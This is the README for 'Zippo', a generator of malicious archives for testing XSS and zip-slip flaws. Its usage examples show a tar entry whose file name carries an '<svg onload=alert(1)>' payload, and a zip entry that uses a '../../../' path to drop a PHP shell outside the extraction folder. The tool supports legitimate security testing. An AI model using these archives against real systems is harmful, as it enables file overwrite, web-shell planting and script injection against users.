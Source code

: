 # Zippo
Zippo is a archive payload generator for testing XSS, (Zip/Tar/Gzip)slip vulnerabilities.

```
                ,.~\                                                  
             ,-`    \                                                 
             \       \                                                
              \       \                                               
               \       \                                              
                \       \                                             
       _.-------.\       \                                            
      (o| o o o | \    .-`                                            
     __||o_o_o_o|_ad-``                                               
    |``````````````|
    |     ZIPPO    |  
    |   ♠ ♠ ♠ ♠ ♠  | 
    |     ♠ ♠ ♠    |
    |       ♠      |
    |______________|
========@egeblc==========

  -i string
    	File to be archived
  -n string
    	Archived file name
  -o string
    	Output archive file name
  -t string
    	Archive type (zip/tar/gzip) (default "zip")
```

## Build

just `make` :)

## Example Usage

**TAR Archive With XSS Payload**
```
zippo -t tar -n "<svg onload=alert(1)>.txt" -o evil.tar
```
**ZIP Archive With ZIP-slip**
```
zippo -t zip -i my-shell.php -n "../../../my-shell.php" -o evil.zip
```
